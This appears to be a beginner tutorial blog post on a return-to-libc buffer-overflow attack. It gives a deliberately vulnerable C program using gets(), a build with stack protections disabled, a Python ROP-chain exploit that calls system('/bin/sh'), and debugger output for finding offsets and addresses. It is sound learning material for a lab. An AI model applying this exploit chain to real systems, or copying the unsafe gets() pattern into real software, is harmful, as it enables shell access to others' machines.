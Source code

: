```yaml
---
title: "Return to libc attack"
date: "2024-11-03"
tags:
  - "infosec"
  - "beginner"
  - "binexp"
  - "exploit"
---
```


watch the video on youtube

<yt-video id="2YPoSWGE-Fc"> </yt-video>

I'm sorry the vulnerable programe I show in the vide was wrong. you can find the correct code from below

`bof.c`

```c
#include<stdio.h>
#include<string.h>

void vuln_func();

int main(int argc, char *argv[])
{
        printf("hello\n");
        vuln_func();
}

void vuln_func()
{
        char buffer[256];
        gets(buffer);
}
```

`Makefile`

```Makefile
all:
        gcc -no-pie -fno-stack-protector bof.c -o vuln -D_FORIFY_SOURCE=0

clean:
        rm vuln
```

`exploit.py`

```python
#!/usr/bin/python

import struct


size = 256
libc_base = 0x00007ffff79e2000


padding = "A"* size
padding += "BBBBBBBB"


#padding += "CCCCC"

padding += struct.pack("Q", libc_base + 0x00000000000008aa) # added a ret to prevent stack issue
padding += struct.pack("Q", libc_base + 0x00000000000215bf) # the rip contain pop rpi ret
padding += struct.pack("Q", libc_base + 0x1b3e1a) # address for the bin sh
padding += struct.pack("Q", 0x7ffff7a31550) # addr for system


print padding
```

The Notes

---

## Finding the offset

found the offset to rbp

```

gef➤  pattern offset $rbp
[+] Searching for '$rbp'
[+] Found at offset 256 (little-endian search) likely
gef➤

```

overwting the rip

```python

#!/usr/bin/python

padding = "A" * 256
padding += "BBBBBBBB"
padding += "CCCCCC" # we writing the rip

print padding

```

- finding the addr for libc ( 0x00007ffff79e2000 )

- addr for ret ( 0x00000000000008aa )
- gadget (pop rdi , ret) ( 0x00000000000215bf )
- addr for the /bin/sh ( 1b3e1a )
- addr for system ( 0x7ffff7a31550 )

```
0x00000000000215bf: pop rdi; ret;
```

## found the bin sh

```

➜  yt strings -a -t x libc-2.27.so | grep '/bin/sh'
 1b3e1a /bin/sh
➜  yt

```
